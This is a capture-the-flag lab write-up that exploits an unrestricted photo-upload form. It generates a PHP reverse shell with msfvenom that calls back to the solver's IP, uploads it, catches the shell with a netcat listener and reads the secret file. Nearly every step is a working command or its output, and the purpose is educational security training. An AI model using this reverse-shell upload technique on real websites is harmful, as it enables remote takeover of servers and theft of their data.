 # Challenge #1 - Tomato Lovers 1

## Objective

- There is a possibility to upload photos within the website.
- Your objective is to determine which type of files can be uploaded and whether they cause any security threat to the website security.
- In order to prove the threat, you should upload a file that lets you run PHP commands on the server.
- You will find a secret in the file readthissecret.php in the website root

## What you will learn

- How to find and exploit vulnerable upload forms
- How to determine the impact related to an Unrestricted File Upload vulnerability
- How to write your own PHP Shell

## Steps

Craft a php shell to upload. Replace the IP with your own VPN IP. The extension must be a valid

```bash
msfvenom -p php/reverse_php lhost=10.100.13.200 lport=1234 -o shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 3007 bytes
Saved as: shell.php
```

Upload this filea on the photo section.

```
http://1.challenge.fileres.site/index.php?section=photos
```

Open a terminal and start a netcat session.

```
nc -nvlp 1234
```

Request your file on the uploads page

```
http://1.challenge.fileres.site/uploads/shell.php
```

On your new shell session read the secret file.

```html
cat ../readthissecret.php
<?php

// YOUR SECRET IS: Congratulations!

?>
```